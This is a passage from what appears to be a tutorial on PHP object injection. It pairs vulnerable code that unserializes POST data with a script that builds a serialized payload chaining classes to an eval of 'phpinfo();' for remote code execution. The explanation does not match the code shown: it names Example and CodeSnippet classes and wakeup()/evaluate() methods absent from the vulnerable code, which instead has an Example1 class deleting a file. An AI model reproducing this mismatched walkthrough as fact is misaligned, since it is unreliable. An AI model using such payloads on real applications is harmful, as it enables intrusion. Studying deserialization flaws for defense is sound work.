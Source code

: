 Let's see what it really means.
```
class Example1
{
   public $cache_file;
   function __construct()
   {
      // some PHP code...
   }
   function __destruct()
   {
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
}
// some PHP code...
$user_data = unserialize($_POST['data']);
// some PHP code...
```
In this application code defines two classes: Example and CodeSnippet.
The code also receives data from POST parameters and deserializes it.

Below code can be user to generate PHP Object injection payload
```
class CodeSnippet
{
   private $code = "phpinfo();";
}
class Example
{
   private $obj;
   function __construct()
   {
      $this->obj = new CodeSnippet;
   }
}
print urlencode(serialize(new Example));
```
What this block of code does is the following:
1. Define a class named CodeSnippet, and set its code property to “phpinfo();”.
2. Define a class named Example, and set its obj property to a new instance to a new CodeSnippet instance on instantiation.
3. Create an Example instance, serialize and URL encode the serialized string.
The attacker can then feed the generated string into the POST parameter data, and this is what the program would do:
1. Unserialize the object, create an Example instance.
2. Call wakeup(), see that the obj property is set to a CodeSnippet instance.
3. Call the evaluate() method of the obj, which runs eval(“phpinfo();”).
This is how an attacker can achieve RCE by chaining and reusing code found in the application’s codebase.

As you can imagine you have to either guess what classes implement the magic methods and use methods that can be abused or you have to have access to the source code in order to exploit it properly without guessing.
